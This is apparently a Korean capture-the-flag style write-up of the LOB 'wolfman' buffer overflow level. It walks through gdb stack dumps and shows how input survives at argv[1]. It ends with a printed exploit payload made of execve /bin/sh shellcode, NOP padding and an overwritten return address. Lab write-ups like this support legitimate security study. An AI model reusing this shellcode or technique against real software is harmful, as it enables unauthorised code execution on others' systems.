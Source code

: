 ```asm
0x80485eb <main+235>:	nop
0x80485ec <main+236>:	nop
0x80485ed <main+237>:	nop
0x80485ee <main+238>:	nop
0x80485ef <main+239>:	nop
```
### 3. exploit code
이 문제를 풀기 위해 생각한 방법은
buffer    : 40 byte
SFP       : 4 byte
RET       : 4 byte

이런 스택 구조에서 RET 다음에 쉘 코드를 넣고, RET(eip)를 RET+4byte로 지정하면 될 것이라 생각했다.....
삽질 결과 위 방식은 되지 않고 중요한 사실을 알게 되었다....

```
(gdb) ni
0x80485e3 in main ()
(gdb) x/20wx $esp
0xbffffc90:	0xbffffca0	0x00000000	0x00000028	0x00000015
0xbffffca0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffcb0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffcc0:	0x00000000	0x00000000	0x42424242	0xbfbfbfbf
0xbffffcd0:	0x00000000	0xbffffd14	0xbffffd20	0x40013868
```
ni 10 번 정도 실행하면 입력하였던 값이 buffer hunter로 인해 0으로 변환되버린다.
흠 여기서 좀더 스택 구조를 살펴 보도록 하자....

x/20wx $esp 를 계속하다보면

```
0xbffffdd0:	0x00000010	0x0fabfbff	0x0000000f	0xbffffe05
0xbffffde0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffdf0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffe00:	0x00000000	0x38366900	0x742f0036	0x772f706d
0xbffffe10:	0x00666c6f	0x41414141	0x41414141	0x41414141
0xbffffe20:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffe30:	0x41414141	0x41414141	0x41414141	0x42424242
0xbffffe40:	0xbfbfbfbf	0x00000000	0x00000000	0x00000000
0xbffffe50:	0x00000000	0x00000000	0x00000000	0x00000000
```
입력하였던 값이 다시 노출된다. 정확한 위치는 .... 0xbffffe10 + 4 = 0xbffffe14
이 값은 argv[1]의 주소로 프로그램이 종료가 될때까지 stack에 남아 있다.
위에서 buffer가 0으로 초기화되어도 argv[1]의 주소로 이동하게 되면 shell을 실행할 수 있게 된다는 것이다.

exploit payload는 아래와 같다

```
./wolfman `python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'+'\x90'*19+'\x14\xfe\xff\xbf'"`

1�Ph//shh/bin��PS��1Ұ
                      ̀����������������������
Segmentation fault
```
위 payload 를 입력하면 그림 좋게 segment fault가 뜨게 된다....
